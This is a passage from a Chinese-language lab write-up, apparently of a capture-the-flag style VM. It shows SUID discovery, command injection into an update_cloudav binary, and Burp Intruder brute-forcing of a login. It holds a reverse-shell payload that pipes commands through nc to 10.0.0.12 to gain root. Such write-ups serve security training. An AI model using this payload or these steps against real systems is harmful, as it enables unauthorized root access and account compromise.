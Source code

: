 `find / -perm 4000 -user root 2>/dev/null`

#### SUID提权

我们使用cat指令查看它的c源代码文件

![截屏2021-08-12 下午7.03.14](https://tva1.sinaimg.cn/large/008i3skNly1gte7lsfreaj60u40i6wgu02.jpg)

看来这里接受一个参数,然后它会把参数拼接进入`freshclam`这个指令,然后通过调用`system`函数执行命令a

还是一样的思路,这里存在代码注入

我们使用`|`管道符同时执行多个命令

不过要注意,由于它只接受一个参数,而且shell在解析时遇到空格就认为结束了,所以一定要注意使用**双引号**把我们的payload括起来

payload: `./update_cloudav "a | nc 10.0.0.12 6666 | /bin/bash 2>&1 | nc 10.0.0.12 7777"`

这里同样使用串联nc达到反弹shell的目的,6666是指令发送端口,7777是结果回显端口

**PWN!**

root权限到手啦~![截屏2021-08-12 下午7.47.00](https://tva1.sinaimg.cn/large/008i3skNly1gte8vavmpij61py02imxg02.jpg)

### 验证码绕过——爆破

在本文中,我们对验证码进行了绕过,我们使用的是sql注入绕过了密码验证

但是如果此处没有sql注入漏洞,那我们该怎么办呢?

**爆破!**

我们回到验证界面,挂载代理到burp上,开启拦截

随便输入一个密码,点击提交,此时burp会自动拦截提交的数据包

在Proxy->Intercept下找到拦截的数据包,点击Action->Send to Intruder![截屏2021-08-12 下午7.59.57](https://tva1.sinaimg.cn/large/008i3skNly1gte98tt8k1j61450u0td702.jpg)

打开Intruder模块,首先clear,然后选中password参数后的`123`,点击add

选择`payload Type:Runtime File`

选择`/usr/share/wordlists/nmap.lst`文件,即nmap默认扫描字典

![截屏2021-08-12 下午8.40.13](https://tva1.sinaimg.cn/large/008i3skNly1gteaeoclbpj61450u0wj202.jpg)

通过length进行排序,payload:`password`的返回长度不同,看来我们找到了~

尝试使用`password`进行登录,成功~

### 总结

我们首先进行了主机发现,这一次我们换了一个工具,`arping`,这个软件更常见,但需要配合shell 命令才能进行网段扫描.

然后,我们进行常规的端口扫描与服务版本扫描.发现ssh与web界面

进入web页面,我们发现了验证码机制,我们分别使用了sql注入和爆破两种方法进行绕过.

在sql注入时,我们首先使用`magic_character.txt`对注入点进行测试,发现使用双引号时返回的长度不同
